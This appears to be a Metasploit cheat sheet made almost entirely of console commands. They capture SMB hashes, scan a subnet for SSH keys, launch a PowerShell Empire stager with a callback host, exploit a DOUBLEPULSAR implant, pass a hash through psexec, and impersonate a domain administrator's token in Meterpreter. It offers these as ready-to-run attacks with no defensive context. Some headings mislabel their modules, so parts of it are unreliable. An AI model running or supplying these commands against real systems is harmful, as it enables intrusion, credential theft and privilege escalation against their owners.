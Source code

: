 Metasploit offers numerous advanced modules not covered in the basic documentation. Here are some powerful examples:

### Auxiliary Modules

**SMB Relay Attack**:
```
msf6 > use auxiliary/server/capture/smb
msf6 auxiliary(server/capture/smb) > set JOHNPWFILE /tmp/hashes.txt
msf6 auxiliary(server/capture/smb) > run
```

**SSH Key Verification**:
```
msf6 > use auxiliary/scanner/ssh/ssh_identify_pubkeys
msf6 auxiliary(scanner/ssh/ssh_identify_pubkeys) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(scanner/ssh/ssh_identify_pubkeys) > set KEY_FILE /path/to/id_rsa.pub
msf6 auxiliary(scanner/ssh/ssh_identify_pubkeys) > run
```

### Exploit Modules

**PowerShell Empire Integration**:
```
msf6 > use exploit/windows/local/powershell_empire_launcher
msf6 exploit(windows/local/powershell_empire_launcher) > set SESSION 1
msf6 exploit(windows/local/powershell_empire_launcher) > set LHOST 192.168.1.5
msf6 exploit(windows/local/powershell_empire_launcher) > set LPORT 8080
msf6 exploit(windows/local/powershell_empire_launcher) > run
```

**DOUBLEPULSAR Backdoor Exploiter**:
```
msf6 > use exploit/windows/smb/smb_doublepulsar_rce
msf6 exploit(windows/smb/smb_doublepulsar_rce) > set RHOSTS 192.168.1.10
msf6 exploit(windows/smb/smb_doublepulsar_rce) > set DOUBLEPULSARPATH /path/to/doublepulsar
msf6 exploit(windows/smb/smb_doublepulsar_rce) > run
```

### Post Modules

**Pass-the-Hash**:
```
msf6 > use exploit/windows/smb/psexec_psh
msf6 exploit(windows/smb/psexec_psh) > set SMBDomain WORKGROUP
msf6 exploit(windows/smb/psexec_psh) > set SMBUser Administrator
msf6 exploit(windows/smb/psexec_psh) > set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
msf6 exploit(windows/smb/psexec_psh) > set RHOSTS 192.168.1.11
msf6 exploit(windows/smb/psexec_psh) > run
```

**Token Impersonation**:
```
meterpreter > use incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token DOMAIN\\Administrator
```
